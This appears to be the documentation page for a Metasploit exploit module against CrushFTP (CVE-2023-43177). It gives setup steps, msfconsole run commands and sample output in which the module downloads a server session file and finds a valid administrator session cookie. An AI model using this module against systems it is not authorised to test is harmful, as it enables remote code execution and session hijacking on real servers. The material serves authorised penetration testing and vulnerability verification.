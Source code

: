 This module can be tested with only an administrator logged into the application. To test the privilege escalation attack, a non-administrator user needs to be set up.

- Click on `Admin` and `User Management`.
- Click the `+ Add` button to create a new user (provide a username and a password).
- With this new user selected, in the `User Settings` pane, select a location in the server file system that will be the root directory for this user. You can create a new folder by clicking the first button on the left hand side. Go ahead and create multiple subdirectories also.
- Drag & drop the root folder from the left pane to the right pane and navigate to a folder you want to be writable. The root folder and its subfolders are read-only by default. Once you pick one folder, select the `Upload` and `Delete` permissions on the right hand side.
- Click `Save`.


## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/crushftp_rce_cve_2023_43177`
1. Do: `set target <target>`
1. Do: `set payload <payload>`
1. Do: `run rhosts=<target address>`


You will need to have an active user's session on the server. For this, you can log into the application with an administrator account or with a non-privileged user. The latter will trigger the privilege escalation routine.
Since the module needs to download the cache session file one or two times, depending on if privilege escalation is required, this can take up to 20 minutes to get remote code execution. So, make sure the user that is authenticated has not logged out or the session timed out until the exploit finishes.


## Options

### SESSION_FILE_DELAY
The delay in seconds between attempts to download the session file (default 30).


## Scenarios

### Target 0 (Java) against CrushFTP version 10.5.0_3 on Windows

#### With an active administrator session
```
msf6 exploit(multi/http/crushftp_rce_cve_2023_43177) > exploit rhosts=192.168.101.54 verbose=true

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking CrushFTP Server
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711129530820_ogdYwds2NKkSxZoAGigNyNLtyFrphL
[*] Checking if the attack primitive works
[*] Logging out session cookie `1711129530820_ogdYwds2NKkSxZoAGigNyNLtyFrphL`
[+] The target appears to be vulnerable.
[*] Downloading the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711129532554_mudHsRJWeg1AH7x0PyZzux9uffDBOr
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_9bce0d5c08-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711129532554_mudHsRJWeg1AH7x0PyZzux9uffDBOr`
[*] Looking for the valid sessions
[*] Found 4 session cookies in the session file
[*] Cookie `1711129187087_HwakJiMBcOOnUrEbe6hgbTuwqH7UVZ` is valid session (username: crushadmin)
[*] Cookie `1711115282718_bh0KMR52mszSUEnVJT7u699mcIIlf3` is not valid
```
